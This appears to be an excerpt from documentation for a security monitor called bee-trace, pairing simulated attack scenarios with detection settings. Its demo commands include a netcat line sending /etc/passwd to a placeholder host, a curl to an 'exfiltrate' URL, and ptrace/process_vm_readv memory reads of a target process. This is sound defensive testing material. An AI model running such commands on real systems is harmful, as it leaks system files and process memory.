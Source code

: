 ## Scenario 2: Data Exfiltration Prevention

### Attack Pattern
Malicious code attempts to send stolen data to external servers.

### Detection Configuration

```yaml
# .github/security.yml
network:
  blocked_domains:
    - "*.malicious-site.com"
    - "suspicious-domain.net"
  monitored_ports: [80, 443, 22, 21, 25]
  alert_on_external_connections: true
```

### Detection Commands
```bash
# Monitor network connections
just run-network-monitor --duration 120 --verbose

# Simulate attack
curl https://suspicious-domain.net/exfiltrate  # → Network Monitor Alert
nc suspicious-ip 1234 < /etc/passwd           # → Network Monitor Alert
```

## Scenario 3: Memory Injection Attack

### Attack Pattern
Advanced persistent threat attempts process memory injection for persistence.

### Detection Example
```bash
# Monitor memory access attempts
just run-memory-monitor --duration 180 --verbose

# Simulated memory injection attempts
gdb -p $TARGET_PID -ex "quit"           # → Memory Monitor Alert (ptrace)
./memory_reader $TARGET_PID             # → Memory Monitor Alert (process_vm_readv)
```

### Custom Detection Script
```bash
#!/bin/bash
# attack-detection-demo.sh

echo "🚨 Starting bee-trace attack scenario demonstration"

# Start monitoring in background
just run-all-monitors --duration 60 &
MONITOR_PID=$!

sleep 5

echo "📁 Testing credential theft detection..."
touch fake_id_rsa && cat fake_id_rsa
echo "test-key" > fake_credentials.json && cat fake_credentials.json

echo "🌐 Testing network exfiltration detection..."  
curl -m 5 httpbin.org/get || true

```